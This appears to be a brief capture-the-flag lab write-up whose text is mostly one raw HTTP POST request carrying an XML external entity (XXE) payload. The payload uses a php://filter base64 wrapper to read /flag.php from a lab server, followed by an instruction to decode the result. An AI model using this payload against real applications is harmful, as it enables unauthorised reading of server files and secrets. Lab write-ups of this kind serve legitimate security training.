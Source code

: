 </body>

to get the flag: 

POST /addEvent.php HTTP/1.1
Host: 94.237.49.212:42852
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42852/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 267
Origin: http://94.237.49.212:42852
DNT: 1
Connection: close
Cookie: PHPSESSID=4o7opq5pp3o345cnf27ig2t23e; uid=52
Sec-GPC: 1

<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>

            <root>
            <name>
&company;
</name>
            <details>2</details>
            <date>2024-07-22</date>
            </root>

now just base64 decode the flag 
